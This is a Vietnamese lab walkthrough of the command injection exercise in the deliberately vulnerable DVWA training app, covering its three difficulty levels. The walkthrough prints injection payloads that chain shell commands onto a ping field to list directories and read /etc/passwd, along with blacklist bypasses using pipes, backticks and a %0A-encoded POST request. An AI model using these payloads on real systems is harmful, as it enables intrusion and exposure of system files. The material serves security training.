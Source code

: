 
# Command Injection - DVWA

## 🛡️ Vulnerability: Command Injection  
Mức độ: **LOW**, **MEDIUM**, **HIGH**

---

## 🔹 LEVEL: LOW

### 📌 Description:
Web cho chúng ta nhập input đầu vào là 1 địa chỉ IP sau đó nó sẽ thực hiện lệnh ping đến địa chỉ IP đó và thực hiện trả về kết quả ở bên dưới
Thực hiện nhập một địa chỉ IP 8.8.8.8 và submit:

Ví dụ: Nhập địa chỉ IP `8.8.8.8` và bấm Submit.
![](images/image6.png)

### 🎯 Goal:
Làm cho server thực hiện các lệnh command ngoài ý muốn thông qua đầu vào.

### 🔍 Phân tích:
- Source code không thực hiện kiểm tra đầu vào.
- Input được đưa trực tiếp vào hàm `shell_exec()`.
- Ta có thể nối nhiều mệnh đề OS command vào bằng các ký tự đặc biệt.

Ví dụ:

```
8.8.8.8; ls /
```

Lúc này câu lệnh thực thi sẽ là:

```
ping -c 4 8.8.8.8; ls /
```

![](images/image2.png)

> Kết quả là cả lệnh `ping` và `ls /` đều được thực hiện.
Hoặc kéo dài ra nhiều mệnh đề hơn:

```
8.8.8.8; ls /; cat /etc/passwd
```
![](images/image9.png)
---

## 🔸 LEVEL: MEDIUM

### 🔍 Phân tích:
Ở mức này, dev đã **chặn ký tự `;` và `&&`** bằng cách đưa chúng vào **blacklist**.

Tuy nhiên, vẫn còn nhiều ký tự khác giúp nối thêm mệnh đề:

- `|` : chuyển output của lệnh 1 thành input của lệnh 2  
- `&` : chạy lệnh ở background  
- `` `command` `` : thực thi lệnh và trả về output  
- `$(command)` : giống như backtick  
- `||` : logic OR – chạy lệnh thứ 2 nếu lệnh đầu lỗi  

### 🧪 Thực hành:

```
8.8.8.8 & ls / & cat /etc/passwd
8.8.8.8 | ls / | cat /etc/passwd
8.8.8.8a || ls /
```

---

## 🔺 LEVEL: HIGH

### 🔍 Phân tích:
- Hầu hết các ký tự có khả năng nối mệnh đề đều đã bị chặn.
- Hàm `trim()` được dùng để loại bỏ khoảng trắng, gây khó khăn hơn.

Tuy nhiên vẫn tồn tại **lỗi trong blacklist**:

```text
Ký tự bị chặn: "| " (pipe + dấu cách)
```

Vì vậy nếu viết là `|cat`, hoặc ` |cat`, thì sẽ **không bị blacklist chặn**.

Ví dụ:

```
8.8.8.8 |cat /etc/passwd
```

> ⚠️ Đây là lỗi dev sơ suất, không áp dụng cho mọi trường hợp.

---

### 🧪 Cách bypass tối ưu: **Mã hóa xuống dòng**
Sử dụng `%0A` để encode ký tự xuống dòng (`
`), PHP sẽ tự động decode:

Ví dụ gói POST:

```http
POST /vulnerabilities/exec/source/high.php
Content-Type: application/x-www-form-urlencoded

ip=8.8.8.8%0Als+%2F
```

- `%0A` → `
`
- Tác động trực tiếp đến lệnh shell

### ✅ Thực hành giả thuyết:

```
8.8.8.8%0Acat /etc/passwd
```

> ✅ Kết quả: **Giả thuyết đúng**

---

## 📌 Tổng kết

| Mức độ | Kỹ thuật khai thác |
|--------|--------------------|
| LOW    | `;` để nối nhiều command |
| MEDIUM | `|`, `&`, `||`, `` ` ``, `$()` |
| HIGH   | Lỗi blacklist + `%0A` (newline encode) |

